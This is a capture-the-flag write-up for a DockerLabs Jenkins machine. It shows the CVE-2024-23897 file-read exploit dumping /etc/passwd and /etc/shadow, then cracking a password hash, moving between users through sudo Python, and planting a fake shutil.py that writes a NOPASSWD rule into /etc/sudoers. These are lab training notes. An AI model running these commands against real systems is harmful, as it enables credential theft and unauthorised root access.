

# secretjenkins

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| secretjenkins | El Pingüino de Mario | easy | dockerlabs |

**Summary:** This intrusion path started with exposure of a Jenkins service that leaked enough implementation detail to enable a precise vulnerability match, then moved into direct file disclosure through CVE 2024 23897, which gave unauthenticated access to `/etc/passwd` and `/etc/shadow`. Once account metadata and password hashes were recovered, offline cracking produced valid SSH credentials for `bobby`, creating the first authenticated foothold. Local privilege mapping showed that `bobby` could execute Python as `pinguinito` without a password, which enabled controlled lateral movement into a second user context. From there, sudo rights over a Python script in a writable directory allowed import path abuse through a malicious `shutil.py`, and that import hijack executed with elevated context, appended a full sudo rule for `pinguinito`, and converted the session into root level control.

---

## Recon

### 1. Machine deployment and target definition
The machine was deployed first, then the target address was set as an environment variable.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/secretjenkins]
└─$ sudo bash auto_deploy.sh secretjenkins.tar
[sudo] password for ouba:

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ ip=172.17.0.2 && url=http://$ip
```

### 2. Service discovery
A full TCP scan with default scripts and version detection identified SSH and Jenkins over Jetty.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-14 15:23 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
```

### 3. Web response check
Direct HTTP probing confirmed Jenkins headers and forced authentication flow.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ curl -i $url:8080
HTTP/1.1 403 Forbidden
Date: Sat, 14 Mar 2026 08:24:19 GMT
X-Content-Type-Options: nosniff
Set-Cookie: JSESSIONID.18df85d3=node0mi57g4ks17431ojn6s1bof02q31.node0; Path=/; HttpOnly
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
X-Hudson: 1.395
X-Jenkins: 2.441
X-Jenkins-Session: c05e65c8
Transfer-Encoding: chunked
Server: Jetty(10.0.18)

<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script id='redirect' data-redirect-url='/login?from=%2F' src='/static/c05e65c8/scripts/redirect.js'></script></head><body style='background-color:white; color:white;'>
Authentication required
<!--
-->

</body></html>  
```


### 4. Directory enumeration
Content discovery on port 8080 surfaced multiple Jenkins routes, including `/404`, which later exposed versioning evidence.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ gobuster dir -u $url:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .txt,.php,.html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/404                  (Status: 200) [Size: 8341]
/about                (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/about/]
/api                  (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/api/]
/assets               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/assets/]
/computers            (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/computers/]
/computer             (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/computer/]
/configure            (Status: 403) [Size: 628]
/error                (Status: 400) [Size: 8114]
/exit                 (Status: 405) [Size: 8504]
/favicon.ico          (Status: 200) [Size: 17542]
/index                (Status: 200) [Size: 13627]
/log                  (Status: 403) [Size: 595]
/logout               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/]
/login                (Status: 200) [Size: 1737]
/manage               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/manage/]
/main                 (Status: 500) [Size: 8379]
/me                   (Status: 403) [Size: 593]
/people               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/people/]
/properties           (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/properties/]
/queue                (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/queue/]
/robots.txt           (Status: 200) [Size: 71]
/robots.txt           (Status: 200) [Size: 71]
/search               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/search/]
/script               (Status: 403) [Size: 601]
/secured              (Status: 401) [Size: 0]
/timeline             (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/timeline/]
/widgets              (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/widgets/]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================
```

### 5. Version disclosure from 404 page
Access to the custom error page revealed Jenkins version details used for exploit matching.



---

## Initial Access

### 1. Exploit selection and retrieval
The identified version was mapped to a public exploit for CVE 2024 23897.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ searchsploit jenkins 2.441
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
 Jenkins 2.441 - Local File Inclusion                                                                 | java/webapps/51993.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ searchsploit -m java/webapps/51993.py
  Exploit: Jenkins 2.441 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/51993
     Path: /usr/share/exploitdb/exploits/java/webapps/51993.py
    Codes: CVE-2024-23897
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /tmp/secretjenkins/51993.py


┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ python3 51993.py
usage: 51993.py [-h] -u URL [-p PATH]
51993.py: error: the following arguments are required: -u/--url
```

### 2. Arbitrary file read and credential material extraction
Once the target URL was provided, the exploit read system files directly.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ python3 51993.py -u $url:8080
Press Ctrl+C to exit
File to download:
> /etc/passwd
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```

```bash
> /etc/shadow
sys:*:19732:0:99999:7:::
sshd:!:19854::::::
backup:*:19732:0:99999:7:::
games:*:19732:0:99999:7:::
root:*:19732:0:99999:7:::
bin:*:19732:0:99999:7:::
bobby:$y$j9T$WMW/12y8q31vknUetL2zA/$npFebwOYjDm5y/itia7nnZdhASN7yJ9l1YDjB/3but9:19854:0:99999:7:::
sync:*:19732:0:99999:7:::
lp:*:19732:0:99999:7:::
www-data:*:19732:0:99999:7:::
systemd-timesync:!*:19854::::::
daemon:*:19732:0:99999:7:::
messagebus:!:19854::::::
_apt:*:19732:0:99999:7:::
pinguinito:$y$j9T$AD4Tq.mVnQE9oR0j2ECGe0$hGXqaPc6e9fCcS6xYupdiR9OcmVjH6WmUKjz39ImCO9:19854:0:99999:7:::
list:*:19732:0:99999:7:::
irc:*:19732:0:99999:7:::
proxy:*:19732:0:99999:7:::
nobody:*:19732:0:99999:7:::
news:*:19732:0:99999:7:::
uucp:*:19732:0:99999:7:::
man:*:19732:0:99999:7:::
jenkins:!:19738:0:99999:7:::
systemd-network:!*:19854::::::
mail:*:19732:0:99999:7:::
```

### 3. Offline cracking and SSH login
The recovered account files were prepared for cracking and `john` recovered the password for `bobby`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ vim shadow

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ vim passwd

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ unshadow passwd shadow > unshadowed
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt unshadowed
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (bobby)
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/secretjenkins]
└─$ ssh bobby@$ip
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:g5HpEMVrzx0F/fmegIvdqdciTROIw/2YvKHJAiaZ12U
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
bobby@172.17.0.2's password:
Linux 0c5860baa0a3 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
bobby@0c5860baa0a3:~$ id;whoami;hostname
uid=1001(bobby) gid=1001(bobby) groups=1001(bobby)
bobby
0c5860baa0a3
bobby@0c5860baa0a3:~$ ls -la
total 20
drwxr-xr-x 2 bobby bobby 4096 May 11  2024 .
drwxr-xr-x 1 root  root  4096 May 11  2024 ..
-rw-r--r-- 1 bobby bobby  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 bobby bobby 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 bobby bobby  807 Apr 23  2023 .profile
bobby@0c5860baa0a3:~$ which sudo
/usr/bin/sudo
bobby@0c5860baa0a3:~$ sudo -l
Matching Defaults entries for bobby on 0c5860baa0a3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 0c5860baa0a3:
    (pinguinito) NOPASSWD: /usr/bin/python3
bobby@0c5860baa0a3:~$ sudo -u pinguinito /usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
pinguinito@0c5860baa0a3:/home/bobby$ cd
pinguinito@0c5860baa0a3:~$ id;whoami;ls -la
uid=1002(pinguinito) gid=1002(pinguinito) groups=1002(pinguinito)
pinguinito
total 20
drwxr-xr-x 2 pinguinito pinguinito 4096 May 11  2024 .
drwxr-xr-x 1 root       root       4096 May 11  2024 ..
-rw-r--r-- 1 pinguinito pinguinito  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 pinguinito pinguinito 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 pinguinito pinguinito  807 Apr 23  2023 .profile
pinguinito@0c5860baa0a3:~$ sudo -l
Matching Defaults entries for pinguinito on 0c5860baa0a3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User pinguinito may run the following commands on 0c5860baa0a3:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
pinguinito@0c5860baa0a3:~$ ls -la /opt/script.py
-r-xr--r-- 1 pinguinito root 272 May 11  2024 /opt/script.py
pinguinito@0c5860baa0a3:~$ cat /opt/script.py
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```

---

## PrivEsc

### 1. Writable script location and import abuse condition
The `/opt` directory was writable by `pinguinito`, which made Python import hijacking possible against the sudo executed script.

```bash
pinguinito@0c5860baa0a3:~$ ls -ld /opt
drwxr-xr-x 1 pinguinito root 4096 May 11  2024 /opt
```

### 2. Malicious module injection and sudoers modification
A fake `shutil.py` was written into `/opt`, then the privileged script was launched. Even though execution ended in an AttributeError, the payload already ran and modified sudo policy.

```bash
pinguinito@0c5860baa0a3:~$ echo 'import os; os.system("echo \"pinguinito ALL=(ALL:ALL) NOPASSWD: ALL\" >> /etc/sudoers")' > /opt/shutil.py
pinguinito@0c5860baa0a3:~$ sudo /usr/bin/python3 /opt/script.py
Traceback (most recent call last):
  File "/opt/script.py", line 10, in <module>
    copiar_archivo(origen, destino)
  File "/opt/script.py", line 4, in copiar_archivo
    shutil.copy(origen, destino)
    ^^^^^^^^^^^
AttributeError: module 'shutil' has no attribute 'copy'
pinguinito@0c5860baa0a3:~$ sudo -l
Matching Defaults entries for pinguinito on 0c5860baa0a3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User pinguinito may run the following commands on 0c5860baa0a3:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
    (ALL : ALL) NOPASSWD: ALL
pinguinito@0c5860baa0a3:~$ sudo -i
root@0c5860baa0a3:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
0c5860baa0a3
/root
total 28
drwx------ 1 root root 4096 Mar 14 08:19 .
drwxr-xr-x 1 root root 4096 Mar 14 08:19 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  126 Jan 16  2024 .gitconfig
drwxr-xr-x 3 root root 4096 Mar 14 08:19 .java
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 May 11  2024 .ssh
```

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on 22 and Jenkins over Jetty on 8080, then web probing confirmed authentication enforced Jenkins behavior.
2. **Vulnerability Discovery**: Directory enumeration and 404 page inspection exposed Jenkins version 2.441, enabling a direct mapping to CVE 2024 23897.
3. **Exploitation**: The public exploit script read `/etc/passwd` and `/etc/shadow`, and offline cracking recovered `bobby` credentials.
4. **Internal Enumeration**: SSH access as `bobby` revealed sudo rights to run Python as `pinguinito`, then a shell transition provided access to a second privilege context.
5. **Privilege Escalation**: Writable `/opt` ownership plus sudo execution of `/opt/script.py` enabled `shutil` import hijacking, sudoers injection, and full root access.

**Final Output File:** `secretjenkins.md`
